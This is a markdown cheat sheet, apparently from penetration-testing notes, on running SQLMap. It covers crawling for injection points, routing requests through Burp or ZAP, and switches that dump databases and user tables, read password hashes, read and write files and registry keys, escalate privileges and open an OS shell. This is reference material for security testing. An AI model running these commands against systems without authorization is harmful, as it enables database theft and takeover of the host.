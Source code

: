 ```yaml
---
title: SQLMap 
category: Web Application
order: 98
---
```


> **SQLMap Command**

{% highlight bash %}
#Crawl the site looking for vulnerable fields
sqlmap.py -u http://192.168.1.2 --crawl=1

#Use a request from burp or zap
sqlmap.py -u http://site/file.php?variable?name=vName --cookie="cookie" --proxy http://127.0.0.1:8081   --batch
sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users
{% endhighlight %}

> **Riding Sessions**
*Note: This can have a performance impact*

**ZAP**
1. Click enable session tracking cookies

**Burp**
1. Click Options tab
2. Click Sessions sub-tab
3. Click Use cookies from Burps' cookie jar - Proxy, Spider, and Scanner

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site looking for injection points | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 

>**Tamper Scripts**

* [SANS](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)


> **Tools**
* [SQLMap](https://github.com/sqlmapproject/sqlmap)

